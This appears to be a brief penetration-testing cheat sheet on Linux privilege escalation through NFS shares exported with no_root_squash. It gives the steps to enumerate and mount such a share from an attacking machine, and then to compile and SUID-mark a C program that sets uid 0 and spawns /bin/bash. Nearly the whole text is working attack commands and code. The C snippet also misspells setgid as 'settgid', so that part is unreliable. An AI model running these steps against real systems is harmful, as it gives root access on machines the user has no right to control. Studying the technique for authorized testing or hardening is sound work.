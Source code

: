 Check NFS Config

```
cat /etc/exports
```

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

Start by enumerating mountable shares from our attacking machine:

```
showmount -e ip
```

Mount one of the “no_root_squash” shares to our attacking machine and start building our executable:

```
mkdir /tmp/dirname

mount -o rw ip:/backups /tmp/dirname
```

If able to set SUID bits, a simple exec to fun /bin/bash will get the job done:

```
int main()
{ settgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Once we compile the code we will set the SUID bit:

```
gcc nfs.c -o nfs -w

chmod +s nfs
```

